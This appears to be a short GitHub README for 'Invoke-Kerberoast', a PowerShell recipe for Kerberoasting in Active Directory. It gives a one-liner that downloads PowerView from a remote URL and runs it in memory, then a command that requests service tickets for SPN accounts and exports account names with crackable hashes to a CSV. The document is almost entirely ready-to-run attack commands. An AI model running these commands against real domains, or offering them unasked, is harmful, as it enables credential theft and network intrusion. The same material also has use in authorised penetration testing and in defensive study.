 # Invoke-Kerberoast
PowerShell script to execute Kerberoasting and export samaccountname and hash to CSV.

#### Download PowerView into Memory
````
iex(new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/pentestfactory/PowerSploit/dev/Recon/PowerView.ps1');Get-NetDomain;
````

#### Execute Kerberoasting
````
Get-netuser -SPN | Get-DomainSPNTicket -outputformat Hashcat | Select-Object samaccountname,Hash | ConvertTo-Csv -NoTypeInformation | Select-object -skip 1 > kerberoast.csv
````

The resulting `kerberoast.csv` file can then be imported into the Excel from this repository.
